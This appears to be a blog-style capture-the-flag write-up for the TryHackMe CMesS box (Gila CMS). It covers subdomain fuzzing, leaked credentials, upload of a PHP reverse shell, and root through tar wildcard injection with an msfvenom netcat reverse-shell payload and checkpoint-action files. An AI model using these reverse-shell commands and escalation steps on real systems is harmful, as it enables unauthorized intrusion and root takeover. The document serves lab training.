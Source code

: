 ```yaml
---
title: TryHackMe CMESS
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/cmess/cmess.png
excerpt: We use and LFI to get initial access, then we use a cronjob wildcard exploit. 
tags: [lfi,wfuzz,dirsearch,linpeas,cronjob,searchsploit]
---
```


# TryHackMe CMesS
Can you root this Gila CMS box?
The challenge page tells us to add `<box IP> cmess.thm to /etc/hosts` so let's do that first.

---

## NMAP results
Let's start off by running our nmap scan
![nmap](nmap.png)
We can see that there's 2 ports open `port 22` and `port 80`.
> `port 22 - OpenSSH 7.2p2`
>`port 80 - Apache httpd 2.4.18`

---

## Searchsploit
looking up Gila CMS on searchsploit we seem to have 2 exploits:
![gila](gila.png)
Looks like we have some sort of local file inclusion

Examining the file:
![lfi](lfi.png)

We'll have to find credentials to the admin panel, then navigate to the LFI link.
`/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

---

## Website

![website](website.png)
Not an interesting page.

Running `dirsearch` on target, we can see we have a `/admin` directory. Let's visit it.
![admin](dirsearch.png)

When running `wfuzz`:

`wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107`

![wfuzz](wfuzz.png)
We have found one subdomain, we'll add this to our `/etc/hosts` file as well. 

Visiting the subdomain: `dev.cmess.thm`

![dev](dev.png)
We can see that the password for andre has been reset and the new password has been given.

`Password: KPFTN_f2yxe%`
He stated that he's unable to get onto the admin panel
So let's try these credentials with the admin page:

`Email: andre@cmess.thm`
`Password: KPFTN_f2yxe%`

![admin](admin.png)

Appending: `/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

![LFI2](lfi2.png)
Looks like it didn't do anything as we can just navigate to this ourselves via clicking `Content > File Manager` however, this has an upload function so let's try uploading a php reverse shell

You can get one from: [Here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
or navigate on your host machine and go to `/usr/share/webshells/php` and edit the `php-reverse-shell.php` file and change your IP and the port you want.

Upload your reverse shell and navigate to the `assets` directory. You'll see your reverse shell nested in there:
![revshell](revshell.png)

Let's start our listener with `nc -lvnp <port used in revshell>` and navigate to our reverse shell to trigger it. `http://cmess.thm/assets/php-reverse-shell.php`

---

## User

GREAT!

![shell](shell.png)

Looks like we can't `cd` into andre so we'll have to find ways around this

![andre](andre.png)

---

## Privesc

We can get [LinEnum](https://github.com/rebootuser/LinEnum) onto the box by spinning up a python server with `python3 -m http.server` on host machine then navigate to a writeable directory such as `/tmp` on target machine `wget <host IP>:8000/LinEnum.sh`

We can see an interesting cron running

![cron](crontab.png)

Towards the end of `LinEnum`, we see 

![lin](endlin.png)

Let's `cd` into `/opt` and view that `.bak` file.

![backup](backup.png)

It notes that andre's backup password is `UQfsdCB7aAP6`

Let's try SSH this time and see if we can't login as andre.

Looks like it worked:

![ssh](ssh.png)

user flag is in current working directory.

---

## Root

One cool tool we can use is called [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

So let's do  as we did with LinEnum and setup a server on our host and wget the linPEAS file.

Remember back when we found the crontab, this will come in handy. linPEAS found the cron to be using what's called wildcard options

![cronlin](cronpeas.png)

The Slash is used as an interval.
This can be used with a range or wild card to run at a specified interval.

These wildcards go as follows: `minute, hour, day of month, month, day of week`. So in this case `*/2 * * * *` means update every 2 minutes. This cron is running a tar command to backup the andre's “backup” directory

We can read about tar wildcard injection: [Here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

We will need to create our payload from our host machine.
`msfvenom -p cmd/unix/reverse_netcat lhost=$HOST lport=$PORT R`

Now that we have our payload `mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej`

All we have to do is a few commands:
Make sure you have your listener up with the right port from your payload.

Run these commands on target:
>`echo "mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej" > shell.sh`
> `echo "" > "--checkpoint-action=exec=sh shell.sh"`
> `echo "" > --checkpoint=1`

Now all we have to do is wait for a callback and we should get root.

BINGO!!

![root](root.png)

Root flag will be in `/root`
















